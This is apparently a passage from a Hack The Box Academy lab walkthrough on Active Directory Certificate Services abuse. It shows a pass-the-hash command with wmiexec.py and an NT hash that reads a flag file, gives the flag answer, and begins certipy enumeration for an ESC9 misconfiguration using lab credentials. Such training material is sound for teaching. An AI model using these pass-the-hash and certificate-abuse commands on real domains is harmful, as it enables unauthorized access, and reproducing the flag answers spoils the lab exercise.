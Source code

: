 Alternatively, students can `pass-the-hash` `2b576acbe6bcfda7294d6bd18041b8fe` with `wmiexec.py` and exfiltrate the contents of the file `C:\Users\haris\Desktop\flag.txt` directly:

Code: shell

```shell
wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\haris\Desktop\flag.txt"
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\haris\Desktop\flag.txt"

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
HTB{ESC3_EKU}
```

Answer: `HTB{ESC3_EKU}`

# ESC9

## Question 1

### "Use certipy to takeover the account user2 with shadow credentials. What is the NT hash of user2?"

After spawning the target machine, students need to use `certipy` with the `find` command and the `-vulnerable` option to enumerate the ADCS CA for vulnerabilities, utilizing the credentials `blwasp@lab.local:Password123!`; students will discover that the `ESC9` template suffers from the `ESC9` misconfiguration:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : lab-LAB-DC-CA
    DNS Name                            : LAB-DC.lab.local
    Certificate Subject                 : CN=lab-LAB-DC-CA, DC=lab, DC=local
    Certificate Serial Number           : 16BD1CE8853DB8B5488A16757CA7C101
    Certificate Validity Start          : 2022-03-26 00:07:46+00:00
    Certificate Validity End            : 2027-03-26 00:17:46+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Enabled
```